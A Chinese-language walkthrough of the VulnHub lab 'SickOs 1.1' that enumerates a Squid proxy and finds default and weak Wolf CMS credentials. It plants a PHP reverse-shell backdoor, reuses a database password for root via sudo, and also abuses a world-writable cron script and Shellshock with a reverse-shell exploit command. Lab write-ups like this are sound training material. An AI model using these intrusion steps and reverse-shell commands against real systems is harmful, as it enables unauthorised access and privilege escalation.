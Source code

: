 # SickOs: 1.1

https://www.vulnhub.com/entry/sickos-11,132/

difficulty: not know

Finish Date：2024-4-16

## IP

192.168.10.164

## Scan

Open Port -> 22,3128,8080

```
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 093d29a0da4814c165141e6a6c370409 (DSA)
|   2048 8463e9a88e993348dbf6d581abf208ec (RSA)
|_  256 51f6eb09f6b3e691ae36370cc8ee3427 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```

跟上一个靶场类似，我们看到有 squid，联想到了利用 squid 代理进行访问，还可能有没扫出来的开放端口。使用 msf 中的 scanner/http/squid_pivot_scanning 进行端口开放探测，发现了 22 和 80 开放。

```
[+] [192.168.10.164] 192.168.10.164:22 seems open (HTTP 200, server header: 'squid/3.1.19').
[+] [192.168.10.164] 192.168.10.164:80 seems open (HTTP 200, server header: 'Apache/2.2.22 (Ubuntu)').
```

使用 curl --proxy http://192.168.10.164:3128 http://192.168.10.164 返回内容如下：

```
BLEHHH!!!
```

使用目录扫描工具对 http://192.168.10.164/ 进行扫描，发现 /robots.txt

```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

扫描 http://192.168.10.164/wolfcms ，看到 CMS 的名字是：Wolf CMS，找到了 cms 的登陆页面：http://192.168.10.164/wolfcms/?/admin/login，但是没有用户名和密码，在网上搜索后，找到此cms的默认用户名是admin，默认密码为：123333b81bK，尝试登陆，但是不对，尝试用密码爆破，结果得到了admin对应的密码为admin。

在文章编辑页面 http://192.168.10.164/wolfcms/?/admin/page/edit/5 写入我们的 php 后门代码保存，然后在 kali 上进行监听，访问文章页面 http://192.168.10.164/wolfcms/，得到反弹的 shell 连接，进行后续操作。

先升级下 tty：python -c 'import pty; pty.spawn("/bin/bash")'

查看到 wolfcms 中的 mysql 数据连接配置文件 /var/www/wolfcms/config.php 内容为：

```
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```

进入数据库，看看有没有什么用户名和密码之类的信息。 mysql -u root -p ，发现 user 表中也只有之前我们发现的 admin 用户。

## flag

### 方式 1：

在/home 目录发现了用户：sickos，但是没找到用户的 ssh 密码，尝试用上面找到的数据库密码进行用户切换，果然 sickos 的系统密码为 john@123。切换到该用户后，sudo -l 发现有全部命令的执行权限，所以直接查看 flag 文件，得到内容：

```
sickos@SickOs:~$ sudo cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

### 方式 2：

查找是否有 cron 任务，/etc/crontab 中无自定义计划任务，在 /etc/cron.d 中发现重要信息：

```
ickos@SickOs:/etc/cron.d$ cat automate

* * * * * root /usr/bin/python /var/www/connect.py
```

这个脚本是以 root 权限每分钟执行一次，查看脚本看是否有可写权限，发现是 777 权限：

```
sickos@SickOs:/etc/cron.d$ ls -al /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```

所以可以直接把 python 的反弹连接代码，写入到这个脚本中，kali 上进行监听，等待计划任务执行，就能得到反弹的 root 权限的 shell 连接。

另外使用 nikto 对网站进行扫描：

```
nikto -h http://192.168.10.164 -useproxy http://192.168.10.164:3128
```

发现了如下漏洞信息，表示存在 shellshock 漏洞：

```
/cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

使用下面利用脚本进行利用：

```
searchsploit -m 34900
python2 34900.py payload=reverse rhost=192.168.10.164 lhost=192.168.10.3 lport=7777 proxy=192.168.10.164:3128 pages=/cgi-bin/status/
```

看到 /cgi-bin/status 的执行代码：

```
cat /usr/lib/cgi-bin/status

#!/bin/bash

echo "Content-Type: application/json";
echo ""
echo '{ "uptime": "'`uptime`'", "kernel": "'`uname -a`'"} '
```

最终也获得了系统的 www-data 的 shell 执行权限。
